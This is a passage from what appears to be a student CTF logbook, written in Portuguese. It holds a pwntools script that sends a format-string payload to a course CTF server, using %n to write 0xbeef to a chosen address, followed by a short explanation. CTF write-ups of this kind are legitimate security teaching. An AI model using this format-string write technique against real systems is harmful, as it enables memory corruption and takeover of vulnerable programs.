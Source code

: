 ```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    pause()
else:
    p = remote("ctf-fsi.fe.up.pt", 4005)

input_address = 0x804b324
address_bytes = input_address.to_bytes(4, byteorder='little')

# Calculate padding needed to write 0xbeef
padding = 0xbeef - 4

payload = address_bytes + b"%"+str(padding).encode()+b"c"+b"%1$n"

p.sendline(payload)
p.interactive()
```
<p>
Este script basea se no mesmo principio do script anterior, mas com o endereço correto, o que faz com que o número de bytes que temos que escrever seja menor já que não temos que encontrar uma solução para o \x20\.
</p>

![Alt text](uploads/logbook7P15.png)
![Alt text](uploads/logbook7P16.png)